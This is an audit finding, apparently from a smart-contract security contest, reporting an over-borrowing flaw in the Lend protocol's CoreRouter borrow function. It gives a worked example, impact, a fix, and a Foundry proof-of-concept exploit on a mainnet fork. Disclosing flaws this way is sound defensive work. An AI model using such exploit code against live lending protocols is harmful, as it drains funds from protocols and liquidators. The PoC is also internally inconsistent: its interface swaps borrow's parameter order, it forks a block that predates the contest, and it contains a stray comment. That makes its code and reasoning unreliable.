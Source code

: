 **A user can borrow amount beyond collateral limit in Lend-Protocol**

_Bug Severity: High_

_Target:_
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2%2Fsrc%2FLayerZero%2FCoreRouter.sol#L145
 

**Summary:**

The borrow function is used to borrow debt from the protocol, and the function does not check borrowed and collateral properly, the require checks preBorrowAmount ( currentBorrowBalance ) instead of postBorrowAmount ( currentBorrowBalance + _amount ) this will allow borrowers to borrow debt more than their collateral


```solidity
// CoreRouter.sol
    function borrow(uint256 _amount, address _token) external {
    
     // ... existing code...

        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;


@audit-bug--> require(collateral >= borrowAmount, "Insufficient collateral"); // ⚠️ This require will allow over borrowing because it checks preBorrowAmount instead of postBorrowAmount.

       // ... existing code...

        // Emit BorrowSuccess event
        emit BorrowSuccess(msg.sender, _lToken, lendStorage.getBorrowBalance(msg.sender, _lToken).amount);
    }
```



**Vulnerability Details:**

A. A User deposited $1000 for example, and the collateral factor (LTV) is 0.8e18 (80%), that means the User has a chance to borrow $800

B. The User borrowed $500, the remaining borrowable balance = $300

C. The User tried to borrow $400 even though his available amount is $300

D. The function checks if the borrowAmount which $500 is equal or less than collateral.

E. The borrow function has indeed identified that the collateral > $500

F. The borrower has received $400, while his currentBorrowBalance is $500. that means the borrower has borrowed $900 instead of $800,that extra $100 will fall the user's debt underCollateralized.



**Impact:**

- Loss of protocol and Liquidators funds because the user's collateral can not pay the debt

- The protocol has to take responsibilities of these losses

- While the Liquidators will not receive their incentives.



**Recommendation:**

Change borrowAmount in require

```solidity

// from this
- require(collateral >= borrowAmount, "Insufficient collateral");

// to this
+ require(collateral >= borrowed, "Insufficient collateral");

// borrowAmount = currentBorrowBalance e.g $500
// borrowed = currentBorrowBalance + _amount e.g $500 + $400 = $900.
```

**Proof of concept (PoC):**

The below PoC shows how a user deposited 1000 USDC and borrow 500 USDC first, then re-borrow 400 USDC even though the collateral factor (LTV) is 80% which is 800 USDC.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {IERC20} from "../src/interfaces/IERC20.sol";



interface ICoreRouter {
    function supply(uint256 amount, address token) external;
    function borrow(address token, uint amount) external;
    function redeem(address token, uint amount) external;
}


contract LendOverBorrow is Test {

    address public USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address public CoreRouter = 0x55b330049d46380BF08890EC21b88406eBFd20B0;
    address public User = 0x37305B1cD40574E4C5Ce33f8e8306Be057fD7341;


function setUp() public {

    vm.createSelectFork(vm.envString("ETH_RPC_URL"), 19000000);

       deal(USDC, User, 10_000e6);

       uint bal = IERC20(USDC).balanceOf(User);
       console2.log("USDC Balance:", bal);

     
          vm.startPrank(User);
     IERC20(USDC).approve(CoreRouter, 1_000e6);


     console2.log("USDC Balance before deposit:", IERC20(USDC).balanceOf(User));

     console2.log("Allowance:", IERC20(USDC).allowance(User, CoreRouter));

     ICoreRouter(CoreRouter).supply(1_000e6, USDC);
     vm.stopPrank();
}

function test_over_borrow() public {
    vm.startPrank(User);

     ICoreRouter(CoreRouter).borrow(USDC, 500e6); 

     ICoreRouter(CoreRouter).borrow(USDC, 400e6); // Misali overly borrow

    vm.stopPrank();
}
}
```

